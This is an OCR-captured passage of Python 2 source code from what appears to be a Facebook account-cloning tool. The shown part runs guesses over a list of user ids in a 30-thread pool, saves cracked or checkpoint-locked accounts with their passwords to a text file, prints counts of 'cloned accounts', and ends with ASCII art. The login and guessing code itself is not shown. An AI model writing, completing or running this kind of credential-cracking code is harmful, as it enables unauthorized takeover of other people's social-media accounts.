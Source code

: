                                 okb = open('save/Checkpoint.txt', 'a')

                                okb.write(k+c+user+pass3+'\n')

                                okb.close()

                                oks.append(c+user+pass3)

                            else:

                               if 'www.facebook.com' in q['error_msg']:

                                   print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass3

                                   cps = open('save/Checkpoint.txt', 'a')

                                   cps.write(k+c+user+pass3+'\n')

                                   cps.close()

                                   cpb.append(c+user+pass3)

                                                                                                                                                                                                                                                                                                                                                                                                        

                                                                                                                                                                                                          

        except:

            pass

        

    p = ThreadPool(30)

    p.map(main, id)

    print 50* '\033[1;91m-'

    print 'Process Has Been Completed ...'

    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))

    print('Cloned Accounts Has Been Saved : save/Checkpoint')

    jalan("Note : Your Checkpoint Accounts Will Open after  7 days")

    print ''

    print """
    \033[1;92m.                                  _____________¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶______________
______¶¶¶¶¶¶¶¶¶___________¶¶¶¶¶¶¶¶¶_______
____¶¶¶¶¶__________¶¶¶¶¶__________¶¶¶¶¶___
____¶¶___________¶¶¶¶¶¶¶¶¶____________¶¶__
____¶¶__________¶¶¶¶¶¶¶¶¶¶¶___________¶¶__
____¶¶______________¶¶¶¶¶¶____________¶¶__
____¶¶_____________¶¶¶¶¶¶¶____________¶¶__
____¶¶______¶¶___¶¶¶¶¶¶¶¶¶____________¶¶__
____¶¶_____¶¶¶¶¶¶¶¶¶¶¶¶¶¶_____¶_¶_____¶¶__
____¶¶_____¶¶¶¶¶¶¶¶¶¶¶________¶¶______¶¶__
____¶¶____¶¶¶¶¶¶¶¶¶¶¶¶¶_______¶¶¶_____¶¶__
____¶¶____¶¶¶__¶¶¶¶¶¶¶¶¶¶¶_____¶¶_____¶¶__
____¶¶______¶¶____¶¶¶¶¶¶¶¶¶____¶¶_____¶¶__
____¶¶_______¶_____¶¶¶¶¶¶¶¶¶_¶¶¶______¶¶__
____¶¶_____________¶¶¶¶¶¶¶¶¶¶¶________¶¶__
____¶¶_____________¶¶¶¶¶¶¶_¶_________¶¶___
_____¶¶_______¶¶___¶¶¶¶¶¶¶__________¶¶____
______¶¶______¶¶¶¶¶¶¶¶¶¶¶__________¶¶_____
_______¶¶_____________¶¶¶_________¶¶______
________¶¶___________¶¶__________¶¶_______
_________¶¶_________¶¶__________¶¶________
__________¶¶______¶¶¶__________¶¶_________
___________¶¶¶_______________¶¶___________
_____________¶¶____________¶¶¶____________
_______________¶¶¶_______¶¶¶______________
_________________¶¶¶__¶¶¶_________________
____________________¶¶____________________